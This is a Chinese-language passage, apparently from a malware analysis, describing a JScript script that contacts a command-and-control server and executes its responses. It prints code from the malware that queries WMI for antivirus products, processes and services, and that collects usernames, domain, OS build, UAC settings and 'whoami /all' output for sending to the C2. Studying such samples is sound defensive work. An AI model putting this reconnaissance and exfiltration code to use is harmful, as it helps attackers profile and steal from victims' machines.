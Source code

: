 ![](img/ee8589e86dd60a7a2669a72ce1c407e9.png)

该脚本发送一些硬编码的值，通常是一个字母和两个数字，并将变量 url2 设置为 C2 URL。然后，来自 C2 的响应将在与该脚本相同的上下文中执行。下一个代码块称为“init ”,通常用于收集有关其执行环境的更多数据，但可以看到它正在访问先前设置的“url2”变量:

```
upperScope.b_request = request
upperScope.reqUrl = url2
```

WMI 有些疑问:

```
var colItems = objWMIService.ExecQuery("SELECT * FROM Win32_ComputerSystemProduct", "WQL");
var colItems = objWMIService.ExecQuery("SELECT * FROM Win32_OperatingSystem", "WQL");
var colItems = objWMIService.ExecQuery("SELECT * FROM AntiSpywareProduct", "WQL");
var colItems = objWMIService.ExecQuery("SELECT * FROM AntiVirusProduct", "WQL");
var colItems = objWMIService.ExecQuery("SELECT * FROM Win32_Process", "WQL");
var colItems = objWMIService.ExecQuery("SELECT * FROM Win32_Service", "WQL");
```

该脚本将最终收集大量信息并发送出去:

```
var userdnsdomain = wsh.ExpandEnvironmentStrings('%userdnsdomain%')
var username = wsh.ExpandEnvironmentStrings('%username%')
var computername = wsh.ExpandEnvironmentStrings('%computername%')
var processor_architecture = wsh.ExpandEnvironmentStrings('%processor_architecture%')
var whoami = executeCmdCommand('whoami /all')
req.push(['init_result', '1'])
req.push(['ConsentPromptBehaviorAdmin', ConsentPromptBehaviorAdmin])
req.push(['PromptOnSecureDesktop', PromptOnSecureDesktop])
req.push(['osBuildNumber', osBuildNumber])
req.push(['osCaption', osCaption])
req.push(['whoami', whoami])
req.push(['userdnsdomain', userdnsdomain])
req.push(['username', username])
```